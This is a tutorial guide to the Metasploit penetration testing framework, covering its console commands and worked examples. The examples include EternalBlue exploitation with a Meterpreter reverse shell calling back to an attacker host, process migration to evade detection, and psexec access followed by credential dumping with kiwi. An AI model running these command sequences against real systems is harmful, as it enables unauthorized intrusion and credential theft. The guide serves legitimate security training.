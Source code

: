 


# A Comprehensive Guide

Metasploit is a powerful, open-source penetration testing framework. It's used for developing and executing exploits against known vulnerabilities, and is widely used for post-exploitation and various other attack simulation scenarios. This document will give an in-depth overview of Metasploit’s key functionalities, modules, commands, and practical use cases.

## Metasploit Basics

*   **Exploit Framework:** Metasploit provides an extensive library of exploits for a vast array of vulnerabilities, systems, and services.
*   **Payload Delivery:** It's used to deliver payloads, including reverse shells, Meterpreter sessions, and more.
*   **Module System:** Metasploit is organized into modules, including exploits, payloads, auxiliary, post, encoder, etc, making it easy to use, and customize attacks.
*   **Customization:** It allows for extensive customization using different options.

## Core Metasploit Components and Commands

Here are some of the key components and commonly used commands in Metasploit:

1.  **`msfconsole`:** Starts the Metasploit console. This is the command line interface for Metasploit, and the entry point for using its functions.
    *   **Example:** `msfconsole`

2.  **`search <keyword>`:** Used to search for modules. Use it to search for exploits, payloads, and other modules based on keywords.
    *   **Example:** `search smb_ms17_010`

3. **`use <module_path>`:**  Selects a module to use, you need to specify the module path of a given module.
     *  **Example:** `use exploit/windows/smb/ms17_010_eternalblue`

4. **`show options`:** Shows all available options for a module. After selecting a module with `use`, you need to check its options before usage, to provide necessary information.
   *   **Example:** `show options`

5. **`set <option> <value>`:** Configures module options before executing a module.
     *   **Example:** `set RHOST 192.168.1.100`

6.  **`show payloads`:** Lists all the available payloads, and you can select a specific payload using its path.
    *   **Example:** `show payloads`

7.  **`set payload <payload_path>`:** Set a payload for the selected exploit.
     *  **Example:** `set payload windows/x64/meterpreter/reverse_tcp`

8. **`exploit`:** Executes a selected exploit module.
   *   **Example:** `exploit`

9. **`jobs`:** Displays all running jobs and tasks in the session.
  * **Example:** `jobs`

10. **`sessions`:** Used to manage sessions with exploited targets.
  * **Example:** `sessions`

11. **`sessions -i <session_id>`:** Interact with a Meterpreter session.
      * **Example:** `sessions -i 1`

12. **`background`:** Sends an active session to the background.
    *  **Example:** `background`

13. **`migrate <pid>`:** Migrate your process to another process with a given PID, useful to avoid detection and kill your original process.
     *  **Example:** `migrate <pid>`

14. **`help`:** Displays help for specific modules, commands, or general Metasploit usage.
      *   **Example:** `help use` or `help set`

15. **`load <plugin>`:** Loads a post-exploitation plugin.
     *  **Example:** `load kiwi`

16. **`exit`:** Closes the framework.
     *  **Example:** `exit`

## Practical Metasploit Examples

1.  **Search for MS17-010 exploits:**
    ```bash
    msfconsole
    search ms17-010
    ```

2.  **Use `eternalblue` exploit and setup the target and payload and then execute:**
    ```bash
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    show options
    set RHOST 192.168.1.100
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST <attacker_ip>
    set LPORT 4444
    exploit
    ```
3.  **Start a Meterpreter session, and then migrate to another process:**
    ```bash
      msfconsole
      use exploit/windows/smb/ms17_010_eternalblue
      set RHOST 192.168.1.100
      set payload windows/x64/meterpreter/reverse_tcp
      set LHOST <attacker_ip>
      set LPORT 4444
      exploit
      sessions
      sessions -i <session_id>
      migrate <pid>
      background
    ```
4. **Run a specific module to gain access, and extract credentials:**
     ```bash
     msfconsole
     use exploit/windows/smb/psexec
     show options
     set RHOST 192.168.1.100
     set SMBUser user
     set SMBPass password
     set payload windows/x64/meterpreter/reverse_tcp
     set LHOST <attacker_ip>
     set LPORT 4444
     exploit
     sessions
     sessions -i <session_id>
     load kiwi
     creds_all
     ```
5.  **Load the `enum_shares` post module:**
    ```bash
      msfconsole
       use post/windows/gather/enum_shares
       show options
       set SESSION <session_id>
       exploit
    ```

## Use Cases

*   **Penetration Testing:** Performing a wide range of attacks, including vulnerability exploitation, privilege escalation, and post-exploitation.
*   **Security Research:** Testing the security of different systems and services.
*   **Vulnerability Validation:** Verifying the exploitability of vulnerabilities.
*   **Red Teaming:** Simulating realistic attacks to test a target's security.
*   **Security Training:** A platform to practice different kinds of attacks and defenses.

## Conclusion

Metasploit is a cornerstone of the security professional's toolkit. Its vast library of exploits and flexible framework makes it essential for conducting comprehensive security tests and research. Always remember to use these tools responsibly, ethically and only on systems you are authorized to test.

---
